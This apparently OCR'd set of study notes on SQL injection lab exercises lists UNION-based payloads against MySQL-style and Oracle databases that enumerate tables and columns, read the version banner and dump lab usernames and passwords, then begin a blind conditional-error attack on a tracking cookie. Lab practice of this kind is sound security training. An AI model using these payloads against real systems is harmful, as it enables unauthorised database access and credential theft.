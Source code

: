 ' UNION SELECT column_name, null from information_schema.columns WHERE table_name = 'users_kcbtjc' --
columns 
--->username_pvcyrs
--->password_qgoybt

#6 output informations fron the tables
' union select username_pvcyrs, password_qgoybt from users_kcbtjc --

-->>administrator
-->w6n4y4yuxkpe0vbmox6n
LAB#11 LISTING CONTENT ON ORACLE DATABASE
--
SQLI ON CATEGORY FILE
END-GOOAL
DISPLAY DATABASE CONTENT
LOGIN AS ADMIN

ANALYSIS 
--> DEtermine number of columns in the table 
	' order by 2 --'
--> determine the table data type
	' union select 'a','a' --
--> determine the database version
	 ' union select banner, NULL from v$version --
	 Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production
--> display the tables in the database 
	'union select table_name, null from all_tables --
		USERS_XBFPGN
		
--> display all the colums in the users table 
	' union select column_name, null from all_tab_columns where table_name = 'USERS_XBFPGN' --
	--> USERNAME_NYIHKU	
	--> PASSWORD_WNBRGB
	`SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE`
	--> exfiltrate  the password and username
		' union select USERNAME_NYIHKU, PASSWORD_WNBRGB from USERS_XBFPGN  --
			--> administrator
			--> bk70g5mo0cagtdmxtf4o

LAB #12 BLIND SQLI WITH CONDITIONAL ERROR
--
VULNERABLE PARAMETER -- TRACKING COOKIE 

END-GOAL --> RETRIEVE ADMINISTRATOR PASSWORD

ANALYSIS 

			NOTE ERROR = TRUE
					200 OK = FALSE
#1 CONFIRM the parameter VULNERABLE TO SQL INJECTION 

 ' -->RETURNS NO ERROR
--> ' || (SELECT '' ) || ' --  (THIS SHOULD RETURN AN ERROR IN OTHER DBs)
	RETURNS NO ERROR 
--> ' || (SELECT ' ' FROM DUAL ) || ' --     (is an oracle db)
	RETURNS AN ERROR 
		THEREFORE PARAMETER IS AN ORACLE DATABASE AND IS VULNERABLE TO SQLI 

